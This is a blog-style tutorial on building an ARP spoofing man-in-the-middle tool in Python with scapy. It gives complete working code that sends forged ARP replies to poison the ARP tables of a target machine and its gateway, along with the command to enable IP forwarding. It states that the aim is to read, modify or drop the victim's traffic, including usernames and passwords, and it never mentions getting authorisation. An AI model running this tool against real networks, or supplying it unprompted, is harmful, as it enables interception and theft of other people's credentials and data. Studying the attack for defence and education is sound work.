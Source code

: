 ```yaml
---
layout: post
comments: true
title:  "How to Build an ARP Spoofing Tool Using Python"
date:   2019-03-08 00:02:14
categories: Python, ARP Spoofing, ARP Table Poisoning, Kali, Scapy, Layer 2.5, Data Link Layer
---
```


In this documentation, I will go through the process on how to build an ARP Spoofing program. ARP Spoofing enables us to redirect the flow of packets. Hence, we can use this tool to redirect packets to flow through our computer.

Therefore, any requests sent and responses received by the target client computer, will have to flow through our computer (attack machine) since we are the MITM (Man In The Middle). Hence, images, usernames, passwords, websites or any information entered by the target client will have to flow through our attack machine. Then, by using the ARP Spoofing tool, we can read this information, modify it, or even drop the packets. This is all possible because ARP is not very secure.

Before I go into why ARP is not secure, let's discuss why ARP is used. ARP is used so that clients can identify other connected clients on the same network, and next, they can get the clients MAC address. The reason being, clients on the same network connect with each other using the MAC address. (Note: here, each client device on the same network has an ARP table which links ip addresses to it's respective MAC address.) In order to view your network ARP table, type the following in terminal:
```shell
arp -a
```

Unfortunately, the MAC address can be modified by exploiting the ARP protocol. In order to exploit this protocol we will send *two ARP responses*. One response to the gateway AP(i.e. router access point) and another response to the target client (i.e. victim's computer). Here, we will tell the gateway that our attack machine is at the IP of the target client. Hence, the gateway AP will update it's ARP table and it will associate the IP of the target client with our attack machine's MAC address. We will do the same response process with the target client machine, making it modify its ARP table so that it will associate thee IP of the gateway AP with our attack machine's MAC address.

Therefore, we end up fooling the target client computer that our attack machine is the gateway AP and the gateway AP will think our attack machine is the target client computer.
Hence, to sum everything up, whenever the target client sends a request, it will flow through our attack machine and then we will port forward it to the gateway AP. The same process applies for the gateway AP. So, when the gateway AP sends a response it will flow through our attack machine and then we will send that response to the target client. Therefore, this makes us the man in the middle of the connection.

*Why ARP is not secure?*
As listed above, clients *accept responses* even if they did not send a request. Also, the reason clients accept responses is because they trust the incoming response without any form of verification.

**Process on How to Build an ARP Spoofing Program**

1. Since the attack machine is not a router, when it get's requests, it stops the packets from flowing through it and going to the router. This happens because it is a security feature in Linux systems. Therefore, we need to enable port forwarding, so that the attack machine will allow packets to flow through it just like a router. In order to accomplish this, open a terminal window and type the following command to enable port forwarding.
    ```shell
    echo 1 > /proc/sys/net/ipv4/ip_forward
    ```
(Note: Linux comes with a built in ARP Spoofing tool, However let's create our own ARP Spoofing tool.)

2. Next, let's create a new python file using any IDE you prefer and we will start off by importing the the necessary modules to complete the task. Here, I added a shebang at the beginning of the script, so that the script recognizes the interpreter type when you execute the script from shell. Here, by using the scapy module, we can create, and send an ARP response. Plus, we can use scapy to extract a MAC address. The time module will help us handle time delay to send packets, which you will see further into the documentation. Finally, the sys module will help us flush the output buffer which you will also see in the later steps.
    ```python
    #!usr/bin/env python

    import scapy.all as scapy
    import time
    import sys
    ```

3. Next, we will create two global variables to save the target client IP address, and the gateway access point IP address.
    ```python
    target_ip = "10.15.20.6"
    gateway_ip = "10.15.20.1"
    ```

4. Next, let's create a function to extract MAC address. Here, we will use the scapy module, which lets us do the same functions as Netdiscover and NMap: to scan the network. (See python comments for info.)
    ```python
    def get_mac(ip):
        arp_request = scapy.ARP(pdst=ip)  #using scapy module to create ARP packet object and .ARP to ask who has target client IP
        broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff") #set destination MAC to broadcast MAC
        arp_request_broadcast = broadcast/arp_request #scapy allows us to combine both ARP request and also broadcast at the same time
        answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0] #send packet and receive response
        return answered_list[0][1].hwsrc
    ```
(Note: Disable NAT network in using virtual machine when using an external adapter to discover systems.)

5. Next, let's go ahead and create a function to create ARP responses and send those responses in order to spoof the desired machine. Which means, we can poison the ARP table, which will put is in the middle of the connection. From the scapy module, we will use the "op" field and let's set it to the integer 2 in order to send an ARP response. Because, by default "op" is set to 1, which means it will always send an ARP request when an ARP packet is created. Below, pdst is set to the target clients IP address (destination IP: which is the target machine to be poisoned), hwdst is set to target clients MAC address which is obtained from the get_mac function and psrc is set to the IP address we want to spoof. Basically psrc is the source of where the response is coming from and here we fake the IP and set the IP of the AP router.
    ```python
    def spoof(target_ip, spoof_ip):
        target_mac = get_mac(target_ip)
        packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
        scapy.send(packet, verbose=False) #scapy.send will send the packets for us
    ```
(Note: Do route -n to get IP of router and also for more info on scapy, go to python interpreter and type "import scapy.all as scapy" and then type "scapy.ls(scapy.ARP)" to view all the option fields of the scapy module. Also, even tho we dont mention it above, scapy will set the hwsrc to our attack machine MAC address by default.) Next, once scapy.send is executed, the ARP table of target client machine should be poisoned. Do "arp -a" from target client side to confirm.

6. Next, we will write a function to restore the ARP tables, so that when we quit the program it will revert the ARP tables and associate the IP address with the correct Mac address. Hence, the traffic can start flowing normally. The need for a restore function is if the ARP table is not restored, we will still be the MITM even if we quit the program. (Note: After some time the ARP tables will go back to default, because we are not continuously sending spoofing response packets. However, it is better practice to restore everything to the way it was, when we quit the program.)
    ```python
    def restore(destination_ip, source_ip):
        destination_mac = get_mac(destination_ip)
        source_mac = get_mac(source_ip)
        packet = scapy.ARP(op=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
        scapy.send(packet, count=4, verbose=False) #here count=4 is to send packet response 4 times. verbose=False so that scapy.send runs in the background
    ```
(Note: here we need to specify the source MAC address - hwsrc or else scapy will set the hwsrc to our attack machine MAC address by default.)

7. Finally, we can start using the above functions. We will use the spoof function twice, the first spoof call is to tell the target client machine (victim) that our attack machine has the gateway AP (router) MAC address. A second spoof function call is to tell the gateway AP (router) that our attack machine has the target client machine (victim) MAC addresss. This will make us the MITM of the connection. However, in order to maintain the poisoning of the target ARP tables, we need to continuously send ARP responses. Therefore, we will do a while loop that will send a ARP spoof to both target client and gateway AP every two seconds. This is possible by using the time module, which will put the while loop to sleep for 2 seconds.
    ```python
    try:
        sent_packets_count = 0
        while True:
            spoof(target_ip, gateway_ip)
            spoof(gateway_ip, target_ip)
            sent_packets_count = sent_packets_count + 2
            print("\r[+] Packets sent: " + str(sent_packets_count)),
            sys.stdout.flush()
            time.sleep(2)
    except KeyboardInterrupt: #to make the tool UI pretty, use try/except block, so that error is not shown when user does a keyboard interruption.
        print("\n[-] CTRL + C : Keyboard Interruption => Restoring ARP tables now. Please wait...\n")
        restore(target_ip, gateway_ip)
        restore(gateway_ip, target_ip)
    ```
(Note: python buffers everything when you have a comma after a print statement. Meaning, everything will be printed in the background, and you will see all the print statements when you CTRL + C. Therefore, we will tell python to flush this buffer and print statements instantly using sys.stdout.flush() Therefore, the program won't wait for the user to CTRL + C in order to show output of print statements. After this line of code, everything will start to print in one line. To avoid this ugly screen output, I over-write the previous print statement and replace a new print statement by using '\r' which tells python to print statements from the start of the line. Hence, now it will dynamically print the sent packets statement.)

* The above sys.stdout.flush() only works with python 2.7 and below. For python 3 use:
    ```Python
    print("\r[+] Packets sent: " + str(sent_packets_count), end="")
    ```
Where end="" will tell python not to add anything to the end of the print statement.
